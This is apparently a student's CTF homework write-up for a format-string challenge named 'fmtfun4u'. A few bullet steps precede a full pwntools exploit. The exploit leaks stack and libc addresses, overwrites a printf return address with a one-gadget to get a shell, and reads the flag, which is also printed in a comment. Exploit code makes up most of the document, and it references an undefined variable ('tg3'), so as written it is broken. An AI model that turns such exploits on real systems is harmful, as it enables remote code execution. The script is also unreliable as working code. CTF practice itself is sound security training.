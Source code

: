 # HW4
## fmtfun4u 150
* First time `fmt` to leak `stack` and `libc`.
* `Fmt` to using `arg11` modify the first two significant byte of the pointer which `arg11` point to.
* `[arg11]` -> `stack address store return address of _IO_vfprintf_internal`.
* Choosing this return address due to we only need to modify two byte of it.
* old -> `libc + 0x4fef1` , mod -> `libc + 0x4526a`.
* Third `fmt` is to modify return address of `vfprint` to `one`.
* Got the shell.

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{FEED_MY_TURTLE}

context.arch = 'amd64'

e , l = ELF('./fmtfun4u') , ELF('./libc.so.6')

host , port = 'csie.ctf.tw' , 10136

y = remote(host,port)
#y = process( './fmtfun4u' , env = {'LD_PRELOAD':'./libc.so.6'} )
#print util.proc.pidof(y)
#raw_input('>')

'''
6 -> cal
11 -> jmp
37 -> target

base: 0x7ffff7a0d000
0x7ffff7a5a4a6 0x4d4a6
return address of _IO_vfprintf_internal is 0x7ffff7a5cef1 <vfprint>
0x7ffff7a5cef1 0x4fef1
one            0x4526a
'''

p = '%6$p.%10$p.%9$p.' #leak
y.sendafter( ':' , p )

y.recvuntil('0x')
stk = int( y.recvuntil('.')[:-1] , 16 )
y.recvuntil('0x')
stk2 = int( y.recvuntil('.')[:-1] , 16 )
y.recvuntil('0x')
l.address += int( y.recvuntil('.')[:-1] , 16 ) - 0x20830

tg = stk - 0x28a8
magic = 0x4526a

log.success( 'stack ->   {}'.format( hex( stk ) ) )
log.success( 'Target -> {}'.format( hex( tg ) ) )
log.success( 'Target_mod -> {}'.format( hex( tg & 0xffff ) ) )
log.success( 'libc -> {}'.format( hex( l.address ) ) )
log.success( 'one -> {}'.format( hex( l.address + magic ) ) )

p = '%.{}x%11$hn\x00'.format( str( tg3 & 0xffff ) ) # use pointer1 mod pointer2
print p
y.sendlineafter( ':' , p )
sleep(1)

p = '%.{}x%37$hn\x00'.format( str( (l.address + magic) & 0xffff ) ) # use pointer2 mod return address in libc -> one
print len(p)
y.send( p )

sleep(1)

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```